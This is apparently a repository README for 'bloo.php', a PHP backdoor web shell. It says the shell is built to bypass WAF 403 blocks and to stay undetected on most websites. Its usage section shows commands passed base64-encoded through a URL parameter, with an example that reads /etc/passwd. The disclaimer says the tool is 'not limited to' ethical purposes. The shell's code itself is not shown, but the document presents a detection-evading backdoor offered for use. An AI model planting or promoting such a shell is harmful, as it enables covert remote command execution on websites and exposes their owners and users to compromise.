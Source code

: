 # About

This RCE Payload/Backdoor Shell is made to bypass WAF 403 errors. This is also undetected in most websites.

## Usage

```
bloo.php?bloo=[INSERT BASE64 ENCODED COMMAND]

example: cat /etc/passwd
convert: cat /etc/passwd -> Base64Encode -> Y2F0IC9ldGMvcGFzc3dk

bloo.php?bloo=Y2F0IC9ldGMvcGFzc3dk
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Discalimer
This is made for but *not limited to* ethical purposes. I am not liable to any misusage of this.

## License
[Bloos3rpent](https://twitter.com/blooserpent)
